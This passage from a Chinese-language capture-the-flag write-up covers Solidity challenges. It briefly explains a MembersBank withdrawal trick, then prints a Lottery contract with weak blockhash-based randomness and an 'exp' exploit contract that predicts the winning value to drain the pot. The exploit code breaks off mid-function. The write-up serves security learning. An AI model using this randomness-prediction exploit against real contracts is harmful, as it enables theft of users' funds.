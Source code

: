 所以现在的目标是调用 MembersBank 的 withdraw 函数。可以发现它带有一个 isMember(_user) 的 modifier，所以先要给创建者的地址 register 一下，然后再调用 withdraw(address, uint256) 转出所有余额即可

---

## Lottery

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";
    import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

    contract Lottery is CtfFramework{

        using SafeMath for uint256;

        uint256 public totalPot;

        constructor(address _ctfLauncher, address _player) public payable
            CtfFramework(_ctfLauncher, _player)
        {
            totalPot = totalPot.add(msg.value);
        }
        
        function() external payable ctf{
            totalPot = totalPot.add(msg.value);
        }

        function play(uint256 _seed) external payable ctf{
            require(msg.value >= 1 finney, "Insufficient Transaction Value");
            totalPot = totalPot.add(msg.value);
            bytes32 entropy = blockhash(block.number);
            bytes32 entropy2 = keccak256(abi.encodePacked(msg.sender));
            bytes32 target = keccak256(abi.encodePacked(entropy^entropy2));
            bytes32 guess = keccak256(abi.encodePacked(_seed));
            if(guess==target){
                //winner
                uint256 payout = totalPot;
                totalPot = 0;
                msg.sender.transfer(payout);
            }
        }    
    }
    ```

预测伪随机数，只需要编写一个新的合约然后根据 play 里的逻辑生成 target，然后传给 play 即可

需要注意的是要支付 1 finney 作为 value，并且在部署合约之后要先调用一下 Lottery 的 ctf_challenge_add_authorized_sender 函数（来自 CtfFramework）将合约地址加入白名单

???+ done "exp"
    ```solidity
    contract Exploit {
        Lottery challenge;
        constructor(address addr) public {
            challenge = Lottery(addr);
        }
        function exp() public payable {
            bytes32 entropy = blockhash(block.number);
            bytes32 entropy2 = keccak256(abi.encodePacked(this));
            uint256 ans = uint256(entropy ^ entropy2);
            challenge.play.value(msg.value)(ans);
        }
        function() public payable {}
        function destroy(address addr) public {
            selfdestruct(addr);